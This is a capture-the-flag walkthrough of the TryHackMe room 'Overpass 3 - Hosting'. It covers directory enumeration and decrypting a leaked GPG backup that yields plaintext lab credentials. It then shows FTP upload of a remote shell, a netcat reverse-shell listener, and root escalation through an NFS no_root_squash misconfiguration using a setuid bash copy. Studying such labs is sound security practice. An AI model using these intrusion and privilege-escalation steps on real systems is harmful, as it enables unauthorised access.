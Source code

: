 ```yaml
---

title: Overpass 3 - Hosting
published: true
category: CTF
system: linux
walkthrough-type: thm
source: https://tryhackme.com/room/overpass3hosting
Description: You know them, you love them, your favourite group of broke computer science students have another business venture! Show them that they probably should hire someone for security...
tags: overpass, centOS, linux, privesc
---
```


# Notes


- `gobuster dir -u http://overpass3hosting.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php` we find a backups folder with a zip lets get that and check it. dont see any other files on the server.

inside of backups theres a priv key and a gpg file. 

- `gpg --import priv.key`

looks like the key is expired

we can slect the key and edit with gpg and refresh the expiry and open the xls file.

opening the xls gives us a few usernames and passwords

```
paradox	ShibesAreGreat123
0day	OllieIsTheBestDog
muirlandoracle	A11D0gsAreAw3s0me
```

we can use paradox's creds to login to the ftp, because their ftp server is their webserver dir we can use this to upload a remote shell.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/overpass3hosting]
└─$ nc -nvlp 6669             
listening on [any] 6669 ...
connect to [10.2.3.64] from (UNKNOWN) [10.10.16.128] 41210
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:51:30 up  1:10,  0 users,  load average: 0.00, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (848): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ whoami
whoami
apache
```

- we can run `find / -name *flag* 2>/dev/null` to find the web flag.

# privilege escalation

`/home/james *(rw,fsid=0,sync,no_root_squash,insecure)`

james has `no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications. Read the /etc/exports file, if you find some directory that is configured as `no_root_squash`, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

`no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

we can also swap to user paradox with his pass `su`.

trying to use `https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe` escalation we seem to have an issue connecting with the target machine so in order to connect we will need to setup an ssh port forward.

1. generate a private/public key on the target - `ssh-keygen -f paradox`
2. copy contents of puclic key and edit authorized_keys file on our attacker machine `echo "paradox_key" >> /home/paradox/.ssh/authorized_keys`
3. now we can connect via ssh using the private key after we copy it over to our attacker. 

to check which ports the nfs is listening on we can run `rpcinfo -p` which tells us port `2049`. with this information we can do some SSH port forwarding.

- `ssh paradox@overpass3hosting.thm -i paradox -L 2049:localhost:2049`

create a directory for the share and mount `mkdir /tmp/pe && sudo mount -v -t nfs localhost:/ /tmp/pe`

we get the user flag within the mounted share. we can also `ls -las` and see everything inside james share. we can copy james` priv ssh key and login next stop root. since we can login to james now we can copy bash and simply obtain root.


1. target `cp /bin/bash .`
2. attacker shared `sudo su`, `chown root:root bash`, `chmod +s bash`
3. on the target `./bash -p`

from here we can `cat root.flag` in the root dir.


